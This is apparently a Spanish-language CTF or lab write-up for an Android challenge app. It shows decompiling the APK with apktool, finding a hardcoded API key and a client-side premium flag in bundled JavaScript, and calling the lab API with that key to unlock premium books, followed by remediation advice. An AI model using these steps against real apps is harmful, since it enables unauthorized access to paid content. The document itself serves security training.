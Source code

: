 ## 📚 Desafío: Acceso no autorizado a libros pagos `libros-gratis.apk`

![Status](https://img.shields.io/badge/Desafío-Completado-success)  
![Vuln](https://img.shields.io/badge/Vulnerabilidad-Broken%20Access%20Control-red)  
![APKTool](https://img.shields.io/badge/Herramienta-apktool-blue)  
![BurpSuite](https://img.shields.io/badge/Análisis-Burp%20Suite-orange)

---

### 🎯 Objetivo

Acceder a libros marcados como *premium* en una aplicación Android sin contar con privilegios de usuario pago.

---

### 🧩 Análisis técnico

🔍 Se utilizó `apktool` para descompilar el archivo `.apk`:

```bash
apktool d libros-gratis.apk -o libros-gratis
```

En un archivo JavaScript empaquetado (`assets/public/6441...js`) se encontró lo siguiente:

```js
this.apiKey = "024daaec-bd26-42c7-b9af-4a5d6a67c643"
this.isUserPremium = false

loadBooks() {
    this.isUserPremium ?
        this.bookService.getBooks(this.apiKey) :
        this.bookService.getBooks()
}
```

🧠 Esto reveló que si el cliente se identifica como premium (cambiando un booleano), la app usa una `api_key` estática para acceder a contenido restringido.

---

### 💥 Explotación

Se realizó una solicitud directa a la API con la clave filtrada:

```http
GET /books/?api_key=024daaec-bd26-42c7-b9af-4a5d6a67c643
Host: api-agente.softwareseguro.com.ar
```

📦 Resultado:

```json
{
  "title": "HackLab 2024",
  "description": "Felicitaciones!!! 072732555487fd2b9906d37c3d1217b2",
  "is_premium": true
}
```

✅ Desafío superado: se obtuvo el código de validación del reto.

---

### ⚠️ Vulnerabilidades identificadas

- 🔓 **Broken Access Control**: el backend confía en una `api_key` que puede ser extraída del cliente.
- 🧪 **Hardcoded Secrets**: la clave de acceso estaba embebida en el frontend.
- 📉 **Lógica de autorización del lado cliente**: el control de acceso se decide en el código JS de la app.

---

### 🛡️ Recomendaciones

- Evitar claves estáticas visibles en el cliente.
- Implementar control de acceso real en el backend basado en tokens seguros (ej. JWT).
- Ofuscar el código si es necesario, pero sin depender de eso como mecanismo de seguridad.
- Validar siempre roles y permisos del usuario en el servidor antes de entregar contenido premium.

---

### 🧰 Herramientas utilizadas

| Herramienta     | Uso                              |
|-----------------|----------------------------------|
| `apktool`       | Decompilación del APK            |
| `grep` / `find` | Búsqueda de secretos en código   |
| `curl` / `Burp` | Explotación del endpoint         |
| `VSCode`        | Lectura y análisis de JS         |

---
🔚 **Resultado final:** Se accedió a contenido premium sin pagar, demostrando un fallo crítico en la lógica de autorización de la app.